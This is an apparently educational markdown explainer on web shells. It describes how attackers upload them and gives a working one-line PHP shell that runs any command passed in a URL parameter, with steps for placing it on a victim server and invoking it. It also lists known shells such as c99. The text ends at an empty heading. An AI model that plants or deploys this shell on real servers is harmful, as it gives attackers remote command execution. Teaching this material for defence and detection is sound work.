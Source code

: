 A **Web Shell** is a malicious script uploaded to a **compromised web server** that allows attackers to execute system commands through the server.  

- Works like a "backdoor" via the web server.  
- Usually uploaded by exploiting **File Upload Vulnerability, File Inclusion, Command Injection, or weak credentials**.  
- Can be **hidden inside web applications** (hard to detect).  

---

# 🖥️ How a Web Shell Works
1. Attacker uploads a malicious script (PHP, ASP, JSP, CGI, etc).  
2. Script is accessible through a browser (HTTP request).  
3. Attacker passes commands (GET/POST parameters).  
4. Web server executes those commands and returns results.  

---

# 🐘 Example: PHP Web Shell

### Code:
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
**Steps:**

- Save this file as shell.php.
- Upload it to victim’s server (http://victim.com/uploads/shell.php).
- Execute commands by adding ?cmd= parameter in URL.
### ✅ Example:
```
http://victim.com/uploads/shell.php?cmd=whoami
```
✔ Runs the whoami command and shows result in the browser.
## 📊 Web Shell Characteristics
Feature	|Description
|----|---|
Languages|	PHP, ASP, JSP, CGI, Python, etc.
Access Method|	Browser via HTTP (GET/POST requests).
Common Exploits	|File upload, inclusion, injection, stolen credentials.
Usage|	Execute commands, manage files, maintain persistence.
Stealth	|Can be hidden inside legit-looking files (e.g. image.php).
## ⚡ Popular Web Shells Found Online
1. p0wny-shell
- Minimalistic, single PHP file.
- Provides command execution via browser.
- Interface looks like a simple terminal.
2. b374k shell
- Feature-rich PHP web shell.
- Includes file management, command execution, and more.
- GUI is like a file explorer + terminal.
3. c99 shell
- Very famous, powerful web shell.
- Supports command execution, file manipulation, and system control.
- Often used in advanced attacks.
## 🔑 Key Takeaways
